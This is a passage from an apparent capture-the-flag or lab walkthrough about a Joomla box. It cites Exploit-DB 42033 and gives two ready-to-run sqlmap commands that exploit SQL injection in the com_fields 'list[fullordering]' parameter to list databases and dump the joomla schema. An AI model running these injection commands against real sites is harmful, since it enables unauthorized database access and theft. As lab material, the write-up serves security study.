 [This exploit](https://www.exploit-db.com/exploits/42033) could be worth a shot. Just copy the command and change to corresponding IP.

```
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlm-init](assets/markdown-img-paste-20210830051746813.png)

`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --is-dba -D joomla --schema -p list[fullordering]`
